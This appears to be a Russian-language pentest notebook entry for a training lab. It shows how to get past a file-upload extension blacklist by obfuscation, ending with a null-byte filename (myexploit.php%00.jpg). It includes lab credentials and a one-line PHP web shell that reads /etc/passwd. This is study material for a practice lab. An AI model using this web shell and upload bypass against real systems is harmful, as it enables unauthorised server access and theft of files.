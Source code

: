 Лаборатория содержит уязвимую функцию загрузки изображений. Некоторые расширения файлов занесены в черный список, но эту защиту можно обойти с помощью классической техники [[Pentest/Термины#Обфускация|обфускации]].

## Дано

учетные данные: `wiener:peter`

## Задача

загрузить базовую веб-оболочку PHP, а затем использовать ее для извлечения содержимого файла. `/home/carlos/secret`

# Разведка

- проверка расширения `application/x-httpd-php` - 200
- расширение .php .php4 - `Sorry, only JPG & PNG files are allowed`
- `<?php echo file_get_contents('/etc/passwd'); ?>`
- Пробуем сделать обфускацию
	Несколько расширений; Добавить конечные символы;  Кодировка URL-адреса; Точки с запятой или нулевые байтовые символы; Многобайтовые символы Юникода.

myexploit.php.jpg - ответ 200 

# Атака

- myexploit.php.jpg - вариант убрать .jpg
	`#`  `кодировка` `%00` 

myexploit.php%00.jpg - The file avatars/myexploit.php has been uploaded


